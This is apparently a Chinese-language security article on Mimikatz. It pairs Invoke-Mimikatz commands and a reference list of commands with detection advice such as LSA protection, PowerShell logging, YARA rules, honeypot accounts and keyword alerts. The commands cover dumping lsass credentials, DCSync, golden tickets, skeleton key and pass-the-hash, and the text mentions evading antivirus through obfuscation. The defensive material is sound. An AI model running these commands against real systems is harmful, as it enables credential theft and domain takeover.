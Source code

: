 ### 部分命令 

> **Invoke-Mimikatz -DumpCreds       \***导出lsass进程存储的密码**\***  
>
>
> **Invoke-Mimikatz –DumpCerts       \***导出所有私人证书（即使它们被标记为不可导出）**\***  
>
>
> **Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1"  \***提升特权以在远程计算机上具有调试权限**\***

## 检测Mimikatz

针对Mimikatz使用的检测，在笔者看来，目前国内外的安全软件都可以做到，但因笔者未深入研究这类安全工具的检测机制，所以不敢保证其100%的检测率。例如：Mimikatz工具因为其开源，我们可以对其进行自定义的免杀处理，包括但不限于：异或，混肴等等是都有可能绕过安全软件的。所以这里介绍几点检测意见：

* [启动LSA保护](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn408187%28v=ws.11%29?redirectedfrom=MSDN)（现在mimikatz可以通过执行“!+”来绕过） 
* 监控安全日志（你可以开启“高级审核策略配置\对象访问\审核内核对象”。这可以帮助确定从进程内存中窃取凭据的攻击）。监控powershell的活动

         1.确保所有Windows系统都具有PowerShell v3或更高版本。较新版本的PowerShell具有更好的日志记录功能，尤其是PowerShell v5。

          2.通过组策略启用PowerShell模块日志记录：计算机配置，策略，管理模板，Windows组件和Windows PowerShell，打开模块日志记录。输入"\*"，然后单击“确定”。这将记录所有PowerShell活动，包括所有PowerShell模块。

* 针对Mimikatz编写特定的检测规则，[Mimikatz的YARA规则](http://virustotal.github.io/yara/)
* 增强域内的检测力度和强度，配置好安全设备，利用其来识别与LSASS交互的软件，监控该进程。
* 设立拥有吸引力的蜜罐账户，当该账户的hash被脱取和使用时进行告警。
* 监控HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest的异常，一般情况下该项是不会轻易改动的。
* 对Kerberoasting、黄金票据、白银票据，MS14-068等漏洞的检测告警，大部分人在一般情况下都会利用mimikatz来完成这类漏洞的利用。

**注意：**  
虽然简单的做法就是识别**“ mimikatz”，“ Delpy”或“ gentilkiwi”这类的**关键字来告警Mimikatz，但要考虑到有攻击者会自行编译没有这些关键字的mimikatz  


## Mimikatz常用的命令：

> crypto::certificates –列表/导出证书  
> kerberos::golden –创建黄金/白银票据  
> kerberos::list –列出用户存储器中的所有用户票证（tgt和tgs）。不需要特殊特权，因为它仅显示当前用户的票证。类似于“ klist”的功能。  
> kerberos::ptt –通过门票。通常用于注入被盗或伪造的kerberos票证（黄金/白银/信任）。  
> lsadump::dcsync –要求dc同步对象（获取帐户的密码数据）。无需在dc上运行代码。  
> lsadump::lsa –要求lsa服务器检索sam / ad企业（正常，即时修补或注入）。用于从域控制器或lsass.dmp转储文件中转储所有active directory域凭据。也用于通过参数/ name获取特定的帐户凭据，例如krbtgt：“ / name：krbtgt”  
> lsadump::sam –获得syskey来解密sam条目（从注册表或配置单元）。sam选项连接到本地安全帐户管理器（sam）数据库，并转储本地帐户的凭据。这用于转储windows计算机上的所有本地凭据。  
> lsadump::trust –要求lsa服务器检索信任验证信息（正常或即时修补）。转储所有关联的信任（域/林）的信任密钥（密码）。  
> misc::addsid –添加到用户帐户的sidhistory。第一个值是目标帐户，第二个值是帐户/组名称（或sid）。移至sid：自2016年5月6日起修改。  
> misc::memssp –注入恶意的windows ssp来记录本地身份验证的凭据。  
> misc::skeleton –将万能钥匙插入域控制器上的lsass进程。这样，所有用户对经过skeleton key修补的dc的身份验证都可以使用“主密码”（也称为skeleton key）以及其通常的密码。  
> privilege::debug –获得调试权限（许多mimikatz命令需要此权限或“本地系统”权限）。  
> sekurlsa::ekeys –列出kerberos加密密钥  
> sekurlsa::kerberos –列出所有经过身份验证的用户（包括服务和计算机帐户）的kerberos凭据  
> sekurlsa::krbtgt –获取域kerberos服务帐户（krbtgt）密码数据  
> sekurlsa::logonpasswords –列出所有可用的提供者凭证。这通常显示最近登录的用户和计算机凭据。  
> sekurlsa::pth – pass-thehash和over-pass-the-hash  
> sekurlsa::tickets –列出所有最近通过身份验证的用户的所有可用kerberos票证，包括在用户帐户和本地计算机的ad计算机帐户的上下文中运行的服务。与kerberos::list不同，sekurlsa使用内存读取，并且不受密钥导出限制。sekurlsa可以访问其他会话（用户）的票证。  
> token::list –列出系统的所有令牌  
> token::elevate –模拟令牌。用于将权限提升为system（默认）或在框上找到域管理员令牌  
> token::elevate /domainadmin –使用domain admin凭据模拟令牌。
